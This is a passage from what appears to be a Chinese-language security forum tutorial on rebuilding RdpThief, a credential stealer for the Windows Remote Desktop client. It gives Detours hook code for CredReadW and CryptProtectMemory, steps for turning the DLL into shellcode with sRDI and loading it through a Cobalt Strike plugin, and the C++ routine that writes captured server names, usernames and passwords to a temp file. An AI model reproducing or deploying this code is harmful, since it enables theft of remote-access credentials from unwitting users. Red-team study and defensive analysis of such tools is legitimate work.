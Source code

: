 ![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d1ca489cab7c16ef8f96d93ae9d10ae2a1666362.png)

当然，我们需要注册新的 hook `HookedCredReadW` 并取消注册旧的 hook `_SspiPrepareForCredRead`。

```cpp
DetourAttach(&(PVOID&)OriginalCredReadW, HookedCredReadW);

DetourDetach(&(PVOID&)OriginalCredReadW, HookedCredReadW);
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1d1075323d8a8163862b0198b8d5d559793642b2.png)

重新生成dll，并按照上一小节的测试过程，重新测试一遍，可以看到效果一致

> 记得把原来的 data.bin 删了

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e352eaf8fa973c9b53825fb9475e7dfb0950cba1.png)

### 看一下代码

其实整体代码，唯一有点小疑问的，就是`CryptProtectMemory`的 hook 函数那里，第一个参数`pDataIn`的地址，为啥要`+0x1`

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5fbec9607de0e60fd7471b1166d525b2b64a8297.png)

其实仔细想想，我们之前分析的时候，第一个参数 `pDataIn`里面，前四个字节是`cbData`，4个字节，不正正好是偏移一个地址吗？所以这个`+0x1`刚刚好。

0x06 cna插件
----------

根据作者在文章 <https://www.mdsec.co.uk/2019/11/rdpthief-extracting-clear-text-credentials-from-remote-desktop-clients/> 中提到的，可以用 <https://github.com/monoxgas/sRDI> 把 dll 转换成 shellcode，让cs加载。

具体就是把sRDI 仓库下载下来后，进入其`python`文件夹，运行以下命令，然后把生成的`RdpThief.bin`改名成`RdpThief_x64.tmp`

```bash
python3 ConvertToShellcode.py RdpThief.dll
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8ffd2a0a93e6c221c8912fe30bd2cd31ba6ae7f7.png)

然后放在cs 服务端下，加载插件就行，具体可以参看《0x02 复现》那一小节。从下图可以看出来，我们自己编译的dll，转换成的shellcode，cs可以正常加载，并且能成功拿到密码。

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-bf8637b5d63a3c8fea4cf8e23ab7cca7f78ed43e.png)

0x07 解决方框问题
-----------

`rdpthief_dump`命令，实际上是用 type 命令读取`%temp%\data.bin`，会出现方框，肯定是编码的问题

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c6a2e46b3278f19f1fe5ebce055a8d27fa753e16.png)

原来的写文件代码如下：

```cpp
VOID WriteCredentials() {
    const DWORD cbBuffer = 1024;
    TCHAR TempFolder[MAX_PATH];
    GetEnvironmentVariable(L"TEMP", TempFolder, MAX_PATH);
    TCHAR Path[MAX_PATH];
    StringCbPrintf(Path, MAX_PATH, L"%s\\data.bin", TempFolder);
    HANDLE hFile = CreateFile(Path, FILE_APPEND_DATA,  0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    WCHAR  DataBuffer[cbBuffer];
    memset(DataBuffer, 0x00, cbBuffer);
    DWORD dwBytesWritten = 0;
    StringCbPrintf(DataBuffer, cbBuffer, L"Server: %s\nUsername: %s\nPassword: %s\n\n",lpServer, lpUsername, lpTempPassword);

    WriteFile(hFile, DataBuffer, wcslen(DataBuffer)*2, &dwBytesWritten, NULL);
```